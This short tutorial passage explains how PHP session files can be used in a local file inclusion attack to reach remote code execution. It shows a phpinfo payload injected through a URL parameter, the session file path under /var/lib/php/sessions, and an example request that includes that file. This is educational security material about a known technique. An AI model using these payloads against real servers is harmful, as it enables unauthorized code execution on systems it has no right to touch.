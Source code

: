 PHP session files, data which are stored in files on the server, can also be used in an LFI attack, leading to Remote Code Execution by injecting malicious code into session data, which is executed when the application includes the files. 

**Example:**
1. Injecting PHP code into the session variable.
	```php
	<?php echo phpinfo(); ?>
	```
		example: hxxp://IP/sessions.php?page=<?php echo phpinfo(); ?>

2. This code is then saved in the session file on the server.
	`/var/lib/php/sessions/sess_[sessionID]`. 

3. Include this session file, find the cookies of your browser and accessing the URL will execute the injected PHP code.
	`example: hxxp://IP/sessions.php?page=/var/lib/php/sessions/sess_u62etpa4oqmtn3im1j1h7847vk`
